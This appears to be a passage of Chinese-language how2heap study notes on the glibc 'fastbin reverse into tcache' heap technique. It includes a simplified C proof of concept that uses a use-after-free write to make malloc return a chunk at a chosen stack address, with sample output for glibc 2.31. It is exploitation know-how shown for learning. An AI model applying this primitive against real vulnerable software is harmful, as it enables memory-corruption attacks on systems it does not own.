 触发前都是d0：

![image-20240721193045795](My_how2heap\images\image-20240721193045795.png)

reverse into 后：

![image-20240721193113501](My_how2heap\images\image-20240721193113501.png)



所以exploit的时候要注意一下。

**简化版：**

```c
#include<stdio.h>
#include<stdlib.h>
#include<malloc.h>
#include<assert.h>

int main(){
	char *p_tcache[20];
	int target = 0x6666666;
	printf("target_addr is @ %p\n",&target);
	// fill the tcache
	for(int i=0;i<14;i++){
		p_tcache[i] = malloc(0x40);
	}
	for(int i=0;i<7;i++){
		free(p_tcache[i]);
	}
	char *victim = p_tcache[7];
	free(victim); // fastbin
	// UAF
	long long *p_v = (long long*)victim;
	p_v[0] = (long long*)&target-2; // watch out!
	
	for(int i=8;i<14;i++){
		free(p_tcache[i]);
	}
	// total 7 into fastbin

	// empty tcache
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x40);
	}
	
	// trigger fastbin reverse into tcache
	char *trigger = malloc(0x40);
	char *q = malloc(0x40);
	printf("we have chunk @ %p\n",q);
	return 0;
}
/*
➜  glibc-2.31 ./fastbin_reverse_into_tcache                                      
target_addr is @ 0x7ffffee0637c
we have chunk @ 0x7ffffee0637c
*/
```
